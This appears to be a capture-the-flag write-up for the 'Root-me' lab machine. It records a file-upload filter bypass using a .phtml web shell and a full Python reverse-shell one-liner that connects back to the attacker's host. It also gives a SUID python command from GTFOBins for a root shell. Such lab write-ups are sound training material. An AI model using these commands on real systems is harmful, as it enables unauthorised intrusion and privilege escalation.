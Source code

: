 # Root-me

### IP: 10.10.56.153

### PORTS
- 22
- 80

### 80
- Apache v2.4.29
- /uploads, /css, /js
- /panel

/panel is a simple file upload server, uploaded files are accessible at /uploads

### /panel
- php file are not allowed, uploaded `shell.phtml`
- used this cmd to get a revshell, ran it through `shell.phtml` on web
```
export RHOST="my ip";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
- ran linpeas.sh
- suid bit for /usr/bin/python is set
- used this cmd from GTFOBin to get a root shell
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
